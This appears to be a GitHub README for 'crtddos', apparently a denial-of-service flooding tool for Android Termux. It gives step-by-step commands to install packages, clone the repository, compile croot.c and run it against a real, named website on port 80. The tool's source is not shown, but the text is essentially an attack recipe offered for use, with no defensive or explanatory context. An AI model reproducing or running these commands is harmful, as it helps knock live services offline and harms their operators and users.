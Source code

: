 # crtddos

$ pkg install git

$ pkg install python2

$ pkg install python

$ pkg install clang

$ git clone https://github.com/reyspeed/crtddos

$ cd crtddos

$ clang croot.c -o croot

$ chmod +x croot

$ ./croot www.xnxx.com 80

